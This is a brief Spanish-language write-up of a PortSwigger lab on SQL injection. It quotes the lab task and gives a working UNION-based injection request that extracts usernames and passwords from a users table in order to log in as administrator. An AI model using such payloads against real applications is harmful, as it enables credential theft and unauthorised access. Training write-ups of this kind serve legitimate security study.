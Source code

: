 # 3 - Retrieving data from other tables

> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
>
>  The database contains a different table called `users`, with columns called `username` and `password`.
>
>  To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

SImilar a los anteriores cambio la categoria pero para incluir usuario y contraseña de la tabla de users.

`GET /filter?category=Accesories'+UNION+SELECT+username+,+password+FROM+users-- HTTP/1.1`

![](../../../.gitbook/assets/imagen%20%28622%29.png)

Nos logeamos y listo.

**Nota clave: la coma entre username y password**

